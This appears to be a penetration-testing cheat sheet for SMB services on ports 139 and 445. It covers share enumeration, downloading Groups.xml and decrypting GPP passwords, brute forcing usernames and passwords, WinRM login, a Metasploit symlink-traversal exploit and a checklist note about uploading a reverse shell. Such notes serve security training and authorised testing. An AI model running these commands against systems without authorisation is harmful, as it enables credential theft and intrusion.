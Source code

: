 # 139,445 (SMB)

## Enumeration

### searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u '' -p ''
smbmap -R <share> -H <IP>  # List out directories and their contents
# Look for things like Groups.xml for AD
smbmap -R <share> -H <IP> -A Groups.xml -q  # Attempt to download file
# Locate cpasword= in Groups.xml and decrypt it
gpp-decrypt <cpassword>
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient //<IP>/<SHARE>  # Connect to an available share

> mget *  # Attempt to download all files
> recurse ON  # Turn on recursive
> prompt OFF  # Turn off prompting
```

### crackmapexec

```bash
crackmapexec smb <IP>
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> --shares -u <username> -p <password>

crackmapexec winrm <IP> --shares -u <username> -p <password>  # Tell us if we can get on the machine
# Look for Pwn3d!
evil-winrm -i <IP> -u <username> -p <password>
```

### rpcclient

```bash
rpcclient <IP>
rpcclient -U ''
<TAB> <TAB>  # Show options when connected
> enumdomusers
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.
